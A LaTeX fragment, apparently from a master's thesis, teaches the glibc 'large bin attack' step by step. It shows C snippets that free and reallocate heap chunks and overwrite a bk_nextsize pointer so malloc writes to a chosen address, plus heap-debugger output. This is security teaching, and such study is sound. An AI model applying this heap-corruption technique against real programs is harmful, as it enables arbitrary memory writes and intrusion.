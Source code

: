 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.

\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}

The first step is to define the target; also, we need to define two chunks in the range size of \lb{}; moreover, we need to define two chunks between them to prevent them from merging or the top chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}

In the second step, we free the most significant chunk; however, the freed chunk is not in the \lb{} yet. As we discussed, \lstinline{free} added the freed chunk to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).

\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}

In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
 \end{lstlisting}

 The next step is to put the target address - 0x20 in the \lstinline{p1->bk_nextsize}. As we mentioned before, Just \lb{} chunk chunks use this pointer; they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
\end{document}
